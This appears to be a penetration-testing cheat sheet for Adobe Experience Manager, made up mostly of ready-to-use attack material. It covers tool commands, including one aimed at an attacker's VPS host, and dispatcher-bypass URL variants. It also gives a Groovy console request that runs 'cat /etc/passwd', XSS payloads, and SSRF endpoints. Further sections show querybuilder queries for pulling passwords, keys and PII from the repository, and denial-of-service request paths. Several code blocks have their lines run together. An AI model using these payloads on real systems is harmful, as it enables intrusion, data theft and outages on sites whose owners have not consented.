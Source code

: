 # AEM \[Adobe CMS]

#### video

[https://www.youtube.com/watch?v=EQNBQCQMouk](https://www.youtube.com/watch?v=EQNBQCQMouk)

#### method

* collect sub domain
* use nuclei/nuclei-templates/technologies/tech-detect.yaml to identifiy aem
* Python3 ./aem\_hacker.py –u [https://example](https://example/) — host localhost
* use ../fuzzing/service/aem.txt to fuzz on path

#### aem tools

* [https://github.com/0ang3el/aem-hacker](https://github.com/0ang3el/aem-hacker)
* [https://github.com/0ang3el/aem-rce-bundle](https://github.com/0ang3el/aem-rce-bundle)

```
python3 aem_hacker.py    -u     --host yourvpshostname         =>comman usagepython3 aem_discovery.py --file urls.txt --workers 150         =>discover urlpython3 aem_enum.py      --url                                 => automate usernames and secrets grabbingpython3 aem_ssrf2rce.py  --url  --fakaem yourvbspython3 aem_server.py
```

#### aem dispatcher bypasses

* [ ] bypassing cve 2016-0957

```
<https://aemsite/bin/querybuilder.json>              => blocked<https://aemsite/bin/querybuilder.json/a.css>        => allow<https://aemsite/bin/querybuilder.json/a.html>       => allow<https://aemsite/bin/querybuilder.json/a.ico>        => allow<https://aemsite/bin/querybuilder.json/a.png>        => allow<https://aemsite/bin/querybuilder.json;%0aa.css>     => allow<https://aemsite/bin/querybuilder.json/a.1.json>     => allow
```

* [ ] bypassing for interesting servlets

```
<https://aemsite/bin/querybuilder.json>              => blocked<https://aemsite/bin/querybuilder.json/a.css>        => block<https://aemsite/bin/querybuilder.json;%0aa.css>     => block<https://aemsite/bin/querybuilder.json.servlet.css>  => allow<https://aemsite/bin/querybuilder.json.servlet.html> => allow<https://aemsite/bin/querybuilder.json.servlet.ico>  => allow<https://aemsite/bin/querybuilder.json.servlet.png>  => allow///etc.json                 instead of  /etc.json///bin///quesrybuilder.json instead of  /bin/quesrybuilder.json
```

* [ ] using ssrf

```
ssrf should allow to send GET request and see response- Opensocial proxy- ssrf in reportingservicesproxyservlet(cve-2018-12809)
```

* [ ] rce via exposed Groovy console

```
POST /bin/groovyconsole/post.servlet HTTP/1.1HOST:script=sef+proc+%3d+"cat+/etc/passwd".execute()%0d%0aprintln+proc.txt
```

* [ ] xss

```
POST //////content/usergenerated/etc/commerce/smartlists/vv.jsonaa=alert('xss+on+'%2b+document.domain+%2b+'\\nby+%400ang3el+\\ud83d\\ude00')%3b
```

* [ ] xss

```
POST /content/usergenerated/etc/commerce/smartlists/xssaaa.html=alert('xss+on+'%2b+document.domain+%2b+'\\nby+%400ang3el+\\ud83d\\ude00')%3b
```

* [ ] xss

```
POST /content/usergenerated/etc/commerce/smartlists/xssedjcr:data=alert('xss+on+'%2b+document.domain+%2b+'\\nby+%400ang3el+\\ud83d\\ude00')%3b&jcr:mimeType=text/html
```

* [ ] secret from jcr

```
everything is stored in jcr repository :- secrets (password  ,encryption key , tokens)- cinfiguration- pII- usernames** what to use **- DefaultGETServlet- QueryBUilderJsonServlet- QueryBuilderFeedServlet- GQLSearch Servlet- other** DefaultGETServlet **- Allows to get jsr node with its props- selectors  - tidy  - infinity  - numeric value:-1,0,1...99999- formats  - json  - xml  - res- <https://aem.site/tidy.3.json>  /    => jcr:root  tidy => selector tidy  3    => selector depth  json => output format- how to grap - get node names, start from jcr:root :    - /.1.json    - /.ext.json    - /.childrenlist.json - or guess node names :    - comman names /content, /home, /var, /etc - Dump props for each child node of jcr:root :    - /etc.json or /etc.s.json or /etc.-1.json- what to grap - interesting nodes    - /etc => may contain secrets (pass,enc,keys)    - /apps/system/config => passwords    - /apps/<smth>/config => passwords    - /var => may contain private pii    - /home => password hashed ,pii - interesting props-contain aem usernames    - jcr:createdBy    - jcr:lastModifiedBy    - cq:LastModifiedBy
```

* [ ] QueryBuild Servlets

```
- path   - /bin/querybuilder.json   - /bin/querybuilder.feed.servlet- examples of useful searches - type=nt:file&nodename=*.zip - path=/home&p.hits-full&p.limit=-1 - hasPermission=jcr:write&path=/content - hasPermission=jcr:addChild Nodes&path=/content - hasPermission=jcr:modify Properties&path=/content - p.hits-selective&p.properties=jcr%3alastModifiedBy&property=jcr%3alast ModifiedBy&property.operation-unequals&property.value=admin&type=nt%3abase&p.limit=1000 - path=/etc&path.flat=true&p.nodedepth=0 - path=/etc/replication/agents.author&p.hits-full&p.nodedepth=-1
```

* [ ] exploit SSRF

```
ssrf via Opensocial proxy - /libs/opensocial/proxy?container=default&url=http://target - /libs/shindig/proxy?container=default&url=http://target
```

* [ ] ReportingServicesProxyServlet

```
SSRF via ReportingServicesProxyServlet (CVE-2018-12809)- /libs/ca/contentinsight/content/proxy.reportingservices.json?url=http://target%23/apil.omniture.com/a&q=a- /libs/cq/contentinsight/proxy/reportingservices.json.GET.servlet?url=http://target%23/apil.omniture.com/a&q=a- /libs/mcm/salesforce/customer.json?checkType=authorize&authorization_url=http://target&customer_key=zzzz&customer_secret-zzzz&redirect_uri=xxxx&code=eSSRF via SiteCatalystServlet- /libs/cq/analytics/components/sitecatalystpage/segments.json.servlet- /libs/cq/analytics/templates/sitecatalyst/jcr:content.segments.json
```

* [ ] DOS

```
- /.ext.infinity.json- /.ext.infinity.json?tidy=true- /bin/querybuilder.json?type=nt:base&p.limit=-1- /bin/wcm/search/gql.servlet.json?query=type:base%20limit:..-1&pathPrefix=- /content.assetsearch.json?query=*&start=0&limit=10&random=123- /..assetsearch.json?query=*&start=0&limit=10&random=123- /system/bgservlets/test.json?cycles-999999&interval=0&flushEvery=111111111
```
